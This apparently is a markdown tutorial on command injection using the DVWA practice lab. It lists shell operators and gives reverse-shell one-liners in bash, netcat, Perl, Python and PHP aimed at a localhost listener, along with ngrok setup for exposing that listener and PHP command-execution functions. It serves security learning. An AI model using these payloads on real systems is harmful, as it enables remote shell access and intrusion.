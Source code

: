 ## 2. Command Injection Attack

![](https://i.ytimg.com/vi/UBWMLFbjPBc/maxresdefault.jpg)
>We will use DVWA Labs To Learn Command Injection Attacks

# Linux Command syntax
| Character | Action |
|--|--|
| ; | And |
| && | And |
| \|\| | Or |
| \| | Share Output To Second Command |
| * | It can be use as 'all' or  auto complete |
```
ls -lah /tmp
```
>ls = command to be executed, -lah = Options, /tmp = Argument

# Command Substitution

```
echo $(pwd)
echo `whoami`
```

# Base64 Encoding/Decoding

```
echo "yellphonenaing" | base64
Output => eWVsbHBob25lbmFpbmcK

echo "eWVsbHBob25lbmFpbmcK" | base64 -d
Output => yellphonenaing
```

# Reverse Shell Connection

**Listening**
```
nc -lvp 8080
```

**BASH**
```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

**Netcat**
```
nc -e /bin/sh 127.0.0.1 8080
```

**Perl**
```
perl -e 'use Socket;$i="127.0.0.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**
```
php -r '$sock=fsockopen("127.0.0.1",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# Port Forwarding
**Install And Setup Ngrok**
```
cd /tmp
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip
unzip ngrok-stable-linux-arm.zip && sudo chmod 755 /usr/bin/ngrok
sudo cp ngrok /usr/bin # (For Linux)
cp ngrok $PREFIX/bin && chmod 755 /usr/bin/ngrok (For Termux)
ngrok authtoken  tokenishere #(Token can be got at https://ngrok.com/)
```

**Start TCP Port Forwarding**
```
ngrok tcp 1234 #1234 is your custom port number
```

# Bypassing

**Max Execution Time**
>It can be bypassed with htaccess
```
<IfModule mod_php5.c>
php_value max_execution_time 300
</IfModule>
```

**PHP Functions**
```
<?php
ini_set('max_execution_time', 360);
exec('whoami');
system('whoami');
passthru('whoami');
shell_exec('whoami');
echo `whoami`;
$handle = popen("/bin/whoami 2>&1", "r");
$output="";
if($handle) {
  while($tmp = fgets($handle))
      $output .= $tmp;
  $output .= "\n\nResult = " . pclose($handle);
}
else $output = "popen failed";
echo $output;
?>
```
